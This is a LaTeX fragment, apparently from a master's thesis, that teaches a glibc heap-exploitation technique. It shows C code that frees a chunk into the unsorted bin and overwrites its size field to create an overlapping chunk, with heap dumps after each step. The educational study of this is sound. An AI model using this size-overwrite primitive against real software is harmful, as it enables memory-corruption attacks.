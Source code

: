 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\newcommand*\freec{\lstinline{free}\xspace}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
p1 = malloc(0x100 - 8);
p2 = malloc(0x100 - 8);
p3 = malloc(0x80 - 8);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110 78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
 \end{lstlisting}

Now lets \freec{} the second chunk, As we discuss, This chunk add to the \ub{} at first, then, It can be used for future allocation:

\begin{lstlisting}[language=c,frame=tlrb]
free(p2).
 \end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
\end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110 78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
Chunk(addr=0x555555559290, size=0x20d80, flags=PREV_INUSE) top chunk

 \end{lstlisting}
In the next step, as we did before, we have to change the chunk size by overflow:

\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110 78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
 Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}
\end{document}
